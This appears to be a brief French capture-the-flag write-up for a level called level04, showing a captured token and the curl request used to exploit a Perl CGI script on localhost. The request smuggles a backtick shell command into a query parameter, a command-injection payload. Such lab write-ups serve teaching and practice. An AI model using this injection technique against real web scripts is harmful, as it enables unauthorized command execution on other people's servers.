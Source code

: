 Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

Pour ce challenge nous avons exploite le script perl present dans le home.
Nous avons utilise la commande suivante afin d'executer le script perl

curl http://localhost:4747/level04.pl?x=\`getflag\`

